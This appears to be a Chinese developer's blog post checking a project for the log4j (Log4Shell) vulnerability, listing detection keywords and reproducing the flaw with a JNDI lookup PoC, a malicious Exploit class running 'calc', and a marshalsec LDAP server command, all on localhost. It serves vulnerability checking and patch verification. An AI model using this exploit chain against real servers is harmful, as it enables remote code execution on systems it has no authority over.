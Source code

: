 ```yaml
---
order: 110
category:
  - Log
---
```


# 项目log4j漏洞问题排查
## 1. 自检（项目是否存在log4g漏洞）

**结论：不存在该漏洞**

1. 项目并没有引用到log4g-core
2. 也没有打印会引起该漏洞的关键字或规则

![image-20211222121156841](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222121156841.png)

### 1.1 针对漏洞的自定义规则

| 规则         | 使用情况 |
| ------------ | -------- |
| tcp payload  | 未使用   |
| http msgbody | 未使用   |

### 1.2 日志排查关键字

| 关键字                                                       | 使用情况 |
| ------------------------------------------------------------ | -------- |
| Javax. naming Communicationexception                         | 未使用   |
| Javax. naming. Namingexception: problem generating object using object factory | 未使用   |
| Error looking up JNDI resource"关键字进行排查                | 未使用   |
| ${jndi: ladp或 rmi                                           | 未使用   |
| getobjectfactoryfromreferenc Idapurl Context hdil ookup等与jnd调用相关的堆栈信息。 | 未使用   |



## 2. log4j漏洞概述

该漏洞是由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特定恶意数据包，可在目标服务器上执行任意代码。

## 3. 影响范围

Apache Log4j 2.x <= 2.15.0-rc1

## 4. 复现demo

### 4.1 新建maven项目

创建一个新的maven项目，并导入Log4j的依赖包

```xml
 <!--   bug版本log4j-core-2.14.1    -->
<dependency>
            	<groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <!--   已修复版本log4j-core-2.17.0    -->
<!--        <dependency>-->
<!--            <groupId>org.apache.logging.log4j</groupId>-->
<!--            <artifactId>log4j-core</artifactId>-->
<!--            <version>2.17.0</version>-->
<!--        </dependency>-->
```

### 4.2 漏洞利用

#### **4.2.1 使用POC测试**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
class LogTest {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:8888/Exploit}");
    }
}
```

#### 4.2.2 **编译一恶意类Exploit.class**

首先新建exp.java，然后编译为class文件

```java
class Exploit {
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
javac exp.java
```

#### 4.2.3 **使用marshalsec-0.0.3-SNAPSHOT-all.jar本地开启一个LDAP服务**

```mipsasm
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
"http://127.0.0.1:7777/#Exploit" 8888
```

#### 4.2.3 运行poc.java，即可访问恶意类并执行写在其中的"calc"命令

![image-20211222124406317](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124406317.png)

### 4.3 验证测试

#### 4.3.1 bug版本log4j-core-2.14.1

打印的日志会调用jndi

![image-20211222124709509](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124709509.png)

![image-20211222124917358](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124917358.png)

#### 4.3.2 已修复版本log4j-core-2.17.0

已修复版本就变成单纯的打印日志了

![image-20211222124814229](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222124814229.png)

## 5. 项目验证

项目在log 中的jdni，并不会执行远程调用

![image-20211222125006483](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/blogimage-master/image-20211222125006483.png)

## 参考文章

[手把手复现了 Log4j2 漏洞，太可怕了。。](https://segmentfault.com/a/1190000041117219)

